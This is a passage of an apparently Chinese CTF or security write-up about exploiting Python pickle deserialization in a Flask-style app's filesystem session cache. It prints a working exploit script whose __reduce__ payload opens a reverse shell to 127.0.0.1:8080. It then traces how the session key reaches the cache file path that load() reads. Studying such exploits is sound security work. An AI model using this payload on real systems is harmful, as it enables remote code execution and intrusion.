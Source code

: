 ![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210703-699fb630-302d-1.jpeg)

考虑其他方法。python中除了os和sys模块有提供命令执行的函数外，还有其他第三方模块，比如commands模块：

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210611-4aa7837a-302d-1.jpeg)

因此改写生成序列化文件的exp4.py如下：
```
import os
from pickle import Unpickler as Unpkler
from pickle import Pickler as Pkler
import commands
class chybeta(object):
    def \_\_reduce\_\_(self):
        return (commands.getoutput,("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect((\\"127.0.0.1\\",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\[\\"/bin/sh\\",\\"-i\\"\]);'",))    
evil = chybeta()

def dump(file):
    pkler = Pkler(file)
    pkler.dump(evil)

with open("test","wb") as f:
    dump(f)
```
同时为了进一步利用，我们尝试反弹shell。过程如下，先运行exp4.py生成新的test序列化文件，接着nc监听本地端口，接着运行exp5.py触发序列化漏洞并完成利用

![](https://xianzhi.aliyun.com/forum/media/upload/picture/20180325210651-62471a68-302d-1.jpeg)

不过该怎么控制源代码中的`load(file)`的file呢？通过全局搜索关键字，在`Mycache.py`的`FileSystemCache类`中有多次引用，比如定义在第137行的get方法：
```
def get(self, key):
        filename = self.\_get\_filename(key)
        try:
            with open(filename, 'rb') as f:
                pickle_time = load(f)
                if pickle_time == 0 or pickle_time >= time():
                    a = load(f)
                    return a
                else:
                    os.remove(filename)
                    return None
        except (IOError, OSError, PickleError):
            return None
```
跟入`_get_filename`方法：
```
def \_get\_filename(self, key):
    if isinstance(key, text_type):
        key = key.encode('utf-8')  \# XXX unicode review
    hash = md5(key).hexdigest()
    return os.path.join(self._path, hash)
```
可以看到将传入的字符串key进行MD5，并将其返回。不过这个`key`在哪里定义？通过全局搜索，不难发现在`Mysession.py`的`open_session`中进行了调用：
```
class FileSystemSessionInterface(SessionInterface):
    ...
    def \_\_init\_\_(self, cache_dir, threshold, mode, key_prefix="bdwsessions",
                 use_signer=False, permanent=True):

        self.cache = FileSystemCache(cache_dir, threshold=threshold, mode=mode)
        self.key_prefix = key_prefix
        self.use_signer = use_signer
        self.permanent = permanent
```